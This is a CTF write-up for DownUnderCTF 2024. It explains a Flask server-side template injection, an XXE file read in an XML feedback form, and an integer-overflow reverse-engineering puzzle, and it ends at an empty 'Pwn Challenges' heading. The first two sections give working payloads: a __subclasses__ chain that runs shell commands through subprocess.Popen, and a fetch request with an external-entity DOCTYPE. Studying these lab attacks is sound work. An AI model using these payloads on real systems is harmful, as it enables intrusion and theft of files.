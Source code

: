 # DownUnderCTF 2024 
These are the challenges I solved (or helped solve) in DownUnderCTF 2024
# Web Challenges
## parrot the emu
### hint
> It is so nice to hear Parrot the Emu talk back
### what's on the website
The website consists of a text box. Typing into this text box sends back a page with a "chat log" that parrots your sent message
### the server
The source code for the server is as follows:
```py
from flask import Flask, render_template, request, render_template_string

app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def vulnerable():
    chat_log = []

    if request.method == 'POST':
        user_input = request.form.get('user_input')
        try:
            result = render_template_string(user_input)
        except Exception as e:
            result = str(e)

        chat_log.append(('User', user_input))
        chat_log.append(('Emu', result))
    
    return render_template('index.html', chat_log=chat_log)

if __name__ == '__main__':
    app.run(debug=True, port=80)
```
the user input from the form is rendered using `render_template_string`. This function is known to run arbitray python code if you put render template syntax into it, such as `{{7 * 7}}`. Running this on ther server, the emu reponds `49`, confirming it's vulnerable.
### the exploit
Exploiting from here is simple. The render_template_string context does not have functions like `open` or `os.system`, but using some python builtins and literals we can find some useful functions and jailbreak. We do this using `''.__class__.__mro__[1].__subclasses__()`, which contains a call order that has the actual functions in it, allowing us to call them.  

First we need to find the functions available. We do this by sending the expression and reading the response. Sending `{{''.__class__.__mro__[1].__subclasses__()}}` gets us:
```py
0:    [&lt;class &#39;type&#39;&gt;
1:     &lt;class &#39;weakref&#39;&gt;
2:     &lt;class &#39;weakcallableproxy&#39;&gt;
3:     &lt;class &#39;weakproxy&#39;&gt;
 ...  
213:   &lt;class &#39;subprocess.Popen&#39;&gt;
 ...
```
Which means we can call subprocess.Popen with `''.__class__.__mro__[1].__subclasses__()[213](...)`. This gives us our final exploit:
```python
{{''.__class__.__mro__[1].__subclasses__()[213](["cat", "flag"], stdout = -1).stdout.read()}}
```
Which produces the flag when sent on the website
## zoo feedback form
### hint
> The zoo wants your feedback! Simply fill in the form, and send away, we'll handle it from there!

### materials
This is another python flask server. The function we care about is the index function:
```py
@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        xml_data = request.data
        try:
            parser = etree.XMLParser(resolve_entities=True)
            root = etree.fromstring(xml_data, parser=parser)
        except etree.XMLSyntaxError as e:
            return render_template_string('<div style="color:red;">Error parsing XML: {{ error }}</div>', error=str(e))
        feedback_element = root.find('feedback')
        if feedback_element is not None:
            feedback = feedback_element.text
            return render_template_string('<div style="color:green;">Feedback sent to the Emus: {{ feedback }}</div>', feedback=feedback)
        else:
            return render_template_string('<div style="color:red;">Invalid XML format: feedback element not found</div>')

    return render_template('index.html')
```
### XML external entities
Because the app uses the `resolve_entities=True` optional parameter, we can use [external entities](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing) in the document to retrieve the flag. We will need to send our own document, as external entities are an argument to the DOCTYPE element at the beginning of the document. So, we make the fetch request manually.
### final exploit
Running the following code will return the flag
```js
fetch('/', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/xml'
    },
    body: '<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [ <!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "flag.txt" >]><root><feedback>&xxe;</feedback></root>'
}).then(data => data.text())
.then(data => console.log(data))
```

# Rev Challenges
## number mashing
### hint
> Mash your keyboard numpad in a specific order and a flag might just pop out!
### reversed binary
The important part of the reversed binary is as follows:
```c
  printf("Give me some numbers: ");
  __isoc99_scanf("%d %d",&n1,&n2);
  if (((n1 == 0) || (n2 == 0)) || (n2 == 1)) {
    puts("Nope!");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  ratio = 0;
  if (n2 != 0) {
    ratio = n1 / n2;
  }
  if (ratio != n1) {
    puts("Nope!");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  ...
  local_110 = fopen("flag.txt","r");
  fread(&local_108,1,0x100,local_110);
  printf("Correct! %s\n",&local_108);
```
So, we just need numbers n1 and n2 such that `(n1 // n2) == n1` (integer division). However, the obvious choices (n1 = 0 with any n2, or any n1 with n2 = 1) are blocked. So, we need to use the facts of integer division to our benefit: dividing by negative one is the same as inverting all bits and adding one. If we take the minimum integer, `INT_MIN = (int)0x80000000` then we know:  
```c
INT_MIN/(-1) = (~INT_MIN) + 1
             = (int)(0x7fffffff + 1) 
             = (int)0x80000000 
             = INT_MIN
```
Which is exactly what we want. `(int)0x80000000 = -2147483648`, so inputting `-2147483648 -1` passes the ratio check and prints the flag
# Pwn Challenges

